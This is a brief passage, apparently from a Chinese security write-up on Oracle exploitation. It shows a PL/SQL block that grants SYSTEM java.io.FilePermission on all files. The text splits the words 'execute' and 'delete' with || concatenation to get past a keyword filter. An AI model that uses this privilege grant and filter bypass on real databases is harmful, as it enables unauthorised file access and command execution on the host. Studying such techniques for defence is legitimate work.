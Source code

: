 [![](assets/1709112088-f5746e4981e3e4df5e929d62f184871a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228101412-10341a56-d5df-1.png)

第二次报错是因为没有 FilePermission，我们给他加上即可。这里绕过关键字用`||`拼贴就好

```plain
begin
dbms_java.grant_permission('SYSTEM', 'SYS:java.io.FilePermission', '<<ALL FILES>>', 'read,write,e'||'xecute,del'||'ete');
end;
```

[![](assets/1709112088-97af789d785e69f7bc781df0b0ee2861.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228101418-13f20630-d5df-1.png)
